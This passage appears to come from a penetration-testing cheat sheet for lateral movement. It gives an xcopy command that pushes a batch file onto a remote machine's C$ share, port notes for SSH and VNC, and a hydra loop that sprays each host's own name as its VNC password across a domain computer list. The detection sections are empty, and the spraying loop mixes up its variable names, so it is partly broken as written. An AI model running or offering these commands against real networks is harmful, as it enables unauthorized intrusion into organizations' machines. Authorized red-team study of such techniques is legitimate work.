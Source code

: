 #### <a name='copy-item'></a>copy-item

### <a name='smbclient-ng'></a>smbclient-ng

* [smbclient-ng](https://github.com/p0dalirius/smbclient-ng)

### <a name='xcopy'></a>xcopy
🔑 KEYPOINTS :
https://ss64.com/nt/xcopy.html

▶️ PLAY :
```powershell
C:\Windows\system32>echo F | xcopy C:\Tools\foo.bat \\$ztarg_computer_name\C$\Users\Public\foo.bat
Does \\XXX\C$\Users\Public\foo.bat specify a file name or directory name on the target (F = file, D = directory)? F
C:\Tools\foo.bat
1 File(s) copied
```

🔎️ DETECT :
```powershell
```

## <a name='ssh'></a>ssh

🔑 KEYPOINTS :
* service-port   : 22
* service-process: 
* artifacts      : 

## <a name='vnc'></a>vnc

🔑 KEYPOINTS :
* service-port   : 5900
* service-process: 
* artifacts      : 

### <a name='password-spraying'></a>password-spraying

**Case 1** : vnc_pwd == $ztarg_computer_name 
```bash
# // terminator || tmux / vsplit panel 1 / monitor progression
# // terminator || tmux / vsplit panel 1 / monitor progression / tail 
tail -f pt_XXX_hydra_vnc_output.txt

# // terminator || tmux / vsplit panel 0 / hsplit panel 0 / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 0 / run / pwd spraying over vnc using hydra /
while read ztarg_computer_fqdn; do vnc_pwd=$(echo $ztarg_computer_name | cut -d"." -f1 | tr '[:upper:]' '[:lower:]'); hydra  -p $vnc_pwd vnc://$ztarget_computer_fqdn -w 2/0 -t 4 >> pt_XXX_hydra_vnc_output.txt; done < pt_XXX_getnetcomputers_OU_XXX_all.txt

# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / get success conns / 
grep -c successfully pt_XXX_hydra_vnc_output.txt
grep -c "^\[5900\]" pt_XXX_hydra_vnc_output.txt
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / check last $ztarg_computer_name displayed by 'vsplit panel 1 / tail' /
grep -n  $ztarg_computername pt_XXX_getnetcomputers_OU_XXX_all.txt.txt
```
